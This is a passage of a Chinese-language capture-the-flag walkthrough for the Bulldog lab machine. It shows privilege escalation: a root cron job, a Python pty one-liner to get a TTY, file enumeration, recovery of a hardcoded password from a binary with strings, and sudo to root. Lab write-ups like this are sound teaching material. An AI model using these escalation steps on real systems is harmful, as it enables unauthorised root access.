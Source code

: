 cat runAV 
*/1 * * * * root /.hiddenAVDirectory/AVApplication.py

--------------------------------------------
--------------------------------------------
7、提权
sudo -l
sudo: no tty present and no askpass program specified
可以使用sudo，需要TTY！

python -c 'import pty; pty.spawn("/bin/bash")'

sudo -l
sudo -l
[sudo] password for django: 
发现需要密码，继续枚举！


find / -user bulldogadmin 2>/dev/null
发现：
/home/bulldogadmin/.hiddenadmindirectory/customPermissionApp


cat note
Nick,

I'm working on the backend permission stuff. Listen, it's super prototype but I think it's going to work out great. Literally run the app, give your account password, and it will determine if you should have access to that file or not! 

It's great stuff! Once I'm finished with it, a hacker wouldn't even be able to reverse it! Keep in mind that it's still a prototype right now. I am about to get it working with the Django user account. I'm not sure how I'll implement it for the others. Maybe the webserver is the only one who needs to have root access sometimes?

Let me know what you think of it!

-Ashley
说该文件存在Django用户的信息！


使用了strings查看：
UH-H
SUPERultH
imatePASH
SWORDyouH
CANTget
后面的H是换行符号！

直接获得密码：
SUPERultimatePASSWORDyouCANTget
sudo -l

User django may run the following commands on bulldog:
    (ALL : ALL) ALL

sudo su   ---成功获得root权限！
